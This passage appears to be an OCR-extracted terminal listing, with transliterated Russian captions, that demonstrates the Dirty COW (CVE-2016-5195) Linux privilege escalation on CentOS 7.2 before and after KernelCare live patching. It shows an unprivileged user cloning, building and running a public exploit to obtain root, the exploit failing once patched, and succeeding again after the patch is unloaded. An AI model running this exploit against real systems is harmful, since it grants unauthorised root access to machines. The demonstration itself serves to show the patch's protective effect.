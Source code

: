 \begin{lstlisting}
ETO CHISTIJ ISO CENTOS 7.2

[root@master ~]# cat /etc/redhat-release
CentOS Linux release 7.2.1511 (Core)
[root@master ~]# uname -r
3.10.0-327.el7.x86_64
[root@master ~]# su dcow
[dcow@master ~]$ id
uid=1000(dcow) gid=1000(dcow) groups=1000(dcow) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[dcow@master ~]$ git clone https://github.com/gbonacini/CVE-2016-5195.git
[dcow@master ~]$ cd CVE-2016-5195/
[dcow@master CVE-2016-5195]$ make
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
[dcow@master CVE-2016-5195]$ ./dcow
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
[dcow@master CVE-2016-5195]$ su root
Password: dirtyCowFun
[root@master ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023


[root@master ~]# rpm -i http://patches.kernelcare.com/kernelcare-latest.el6.x86_64.rpm
[root@master ~]# /usr/bin/kcarectl --info
kpatch-state: patch is applied
kpatch-for: Linux version 3.10.0-327.el7.x86_64 (builder@kbuilder.dev.centos.org) (gcc version 4.8.3 20140911 (Red Hat 4.8.3-9) (GCC) ) #1 SMP Thu Nov 19 22:10:57 UTC 2015
kpatch-build-time: Mon Nov  7 17:08:08 2016
kpatch-description: 20;3.10.0-327.36.3.el7.x86_64
[root@master ~]# /usr/bin/kcarectl --update
Kernel is safe
[root@master ~]# /usr/bin/kcarectl --uname
3.10.0-327.36.3.el7.x86_64
[root@master ~]# /usr/bin/kcarectl --patch-info  | grep CVE-2016-5195 -A3 -B3
kpatch-name: 3.10.0/0001-mm-remove-gup_flags-FOLL_WRITE-games-from-__get_user-327.patch
kpatch-description: mm: remove gup_flags FOLL_WRITE games from __get_user_pages()
kpatch-kernel: >kernel-3.10.0-327.36.2.el7
kpatch-cve: CVE-2016-5195
kpatch-cvss: 6.9
kpatch-cve-url: https://access.redhat.com/security/cve/cve-2016-5195
kpatch-patch-url: https://git.kernel.org/linus/19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619

[root@master ~]# uname -r
3.10.0-327.el7.x86_64


PROVEROCHKA
[dcow@master CVE-2016-5195]$ ./dcow
Running ...
NE RABOTAET

4$/YEAR ZA 1 LICENZIUY

OTKLUYCHAEM
[root@master ~]# /usr/bin/kcarectl --unload
Updates already downloaded
KernelCare protection disabled, kernel might not be safe
[root@master ~]# su - dcow
Last login: Wed Dec  7 17:18:42 MSK 2016 on pts/0
[dcow@master ~]$ cd CVE-2016-5195/
[dcow@master CVE-2016-5195]$ ./dcow
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)

\end{lstlisting}
\fi

\clearpage

